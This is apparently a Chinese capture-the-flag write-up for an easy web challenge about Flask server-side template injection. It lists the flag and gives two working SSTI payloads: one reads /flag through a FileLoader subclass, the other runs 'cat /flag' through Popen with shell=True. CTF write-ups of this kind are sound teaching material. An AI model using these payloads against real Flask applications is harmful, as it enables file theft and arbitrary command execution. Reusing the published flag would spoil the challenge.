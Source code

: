 - **题目名称：** 你买车票没
- **题目类型：** WEB
- **题目难度：** 容易
- **出题人：** gbljdgb
- **考点：**

1. python flask ssti模板注入

- **描述：** 星穹列车要出发了,没买票的开拓者不能上车!
- **flag：** XSCTF{SsT1_MilKTea_m1LktEa!}
- **Writeup：** 

payload如下

```
?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if 'FileLoader' in c.__name__ %}
{{ c["get_data"](0, "/flag") }}
{% endif %}
{% endfor %}&password=1

?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if 'Popen' in c.__name__ %}
{{ c('cat /flag',shell=True,stdout=-1).communicate()[0].strip() }}
{% endif %}
{% endfor %}
```

